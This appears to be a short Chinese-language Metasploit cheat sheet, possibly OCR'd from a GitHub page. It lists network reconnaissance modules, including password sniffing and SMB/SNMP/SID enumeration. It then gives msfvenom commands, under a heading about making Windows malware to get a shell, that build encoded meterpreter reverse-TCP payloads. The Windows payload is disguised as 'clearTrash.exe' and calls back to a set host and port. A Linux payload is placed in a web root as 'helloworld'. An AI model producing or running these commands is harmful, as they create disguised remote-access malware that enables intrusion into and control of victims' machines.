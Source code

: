

















## 信息收集

db_nmap

arp_sweep
    auxiliary/scanner/discovery/arp_sweep
    是否在线

auxiliary/scanner/portscan/syn
    端口是否开放

auxiliary/sniffer/psnuffle
    This module sniffs passwords like dsniff did in the past
    嗅探局域网内


基于SNMP协议收集主机信息
    scanner/snmp/snmp_enum

基于smb协议
    scanner/smb/smb_version

smb_enumshares
    auxiliary/scanner/smb/smb_enumshares

smb_lookupsid   扫描系统用户信息(SID枚举)
    auxiliary/scanner/smb/smb_lookupsid


基于ssh协议收集信息
    auxiliary/scanner/ssh/ssh_version





## 制作Windows恶意软件获取 shell

msfvenom 是 msfpayload, msfencode 的结合体

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=服务器 LPORT=服务器端口 -b "\x00" -e x86/shikata_ga_nai -i 30 -f exe -o /root/clearTrash.exe
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.0.1.177 LPORT=8848 -b "\x00" -e x86/shikata_ga_nai -i 30 -f exe -o /root/clearTrash.exe


msfvenom -a x86 --platform linux -p linux//x64/meterpreter/reverse_tcp LHOST=服务器 LPORT=服务器端口 -b "\x00" -i 10 -f elf -o /var/www/html/helloworld
